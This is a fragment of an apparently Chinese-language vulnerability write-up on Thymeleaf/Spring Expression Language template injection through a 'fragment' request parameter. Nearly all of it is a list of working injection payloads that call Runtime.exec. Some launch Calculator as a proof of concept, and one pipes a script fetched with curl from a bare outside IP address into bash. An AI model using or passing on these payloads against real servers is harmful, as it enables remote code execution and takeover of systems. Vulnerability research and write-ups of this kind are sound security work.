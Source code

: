 类似的路由均可以触发

```
cacheName=1&fragment=%24%7BT%20(java.lang.Runtime).getRuntime().exec(%22open%20-a%20Calculator%22)%7D

cacheName=1&fragment=__$%7BT(java.lang.Runtime).getRuntime().exec(%22open -a Calculator%22)%7D__::.x

cacheName=1&fragment=${T(java.lang.Runtime).getRuntime().exec("/bin/bash -c curl${IFS}47.93.248.221|bash")}

cacheName=1&fragment=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22open -a Calculator%22).getInputStream()).next()%7d__::.x		# 正常的Thymeleaf回显payload，但是这里没办法正常回显
```

![image-20230604134720628](images/21.png)

![image-20230607233848476](images/22.png)
